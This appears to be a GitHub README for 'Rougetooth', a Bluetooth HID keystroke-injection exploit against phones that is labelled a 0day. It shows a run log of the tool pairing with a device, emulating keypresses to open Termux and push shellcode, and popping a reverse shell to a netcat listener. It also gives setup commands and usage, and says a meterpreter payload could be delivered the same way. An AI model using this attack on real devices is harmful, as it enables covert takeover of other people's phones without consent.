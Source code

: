 **Rougetooth Bluetooth HID injection attack**

*This is 0day as of Apr 21, 2023*

```
[*] Reverse shell built for 10.0.2.2 on 6543
[*] Pairing to 08:AE:D6:6F:DD:F8
[!] Paired 08:AE:D6:6F:DD:F8 to DC:53:60:6C:FC:B3
[*] Prepped to send HID shellcode, using finder to find termux, then termux to pop a reverse shell from 08:AE:D6:6F:DD:F8...
[!] Go to another terminal and start a netcat listener on port 6543 to handle the shell!
[*] Registered HID profile
[!] Ready, waiting for connection from phone
[*] Control channel connected to 08:AE:D6:6F:DD:F8
[*] Interrupt channel connected to 08:AE:D6:6F:DD:F8
[*] Trying to attain control over device...
[*] Sending back to home screen
[*] Trying to pull up finder...
[*] Trying to find termux...
[*] Pushing shellcode now...
[!] Check your netcat listener for a shell!
[!] Exploit finished.
```



*setup*

Need to run `sudo systemctl stop bluetooth`, then run: `bluetoothd -P input`.


Now pair the device, and: `sudo ./run.sh [phone bt mac] [local ip addr]`.  Now on the phone, tap on the computer's controller alias in the bluetooth screen, and the exploit should proceed.

It should try to push the file, then accept the file itself by bringing up a HID controller on the computer side, and emulating the keypresses needed
from a hardware keyboard to accept the transfer.  This is a benign proof of concept, but uploading a meterpreter shell and running it this way is possible.


*Tested on: linux kernel 6.1.12, bluetoothd 5.66, python libraries: python-xlib 0.27, dbus-python 1.2.16*

Have fun, and be safe!

 
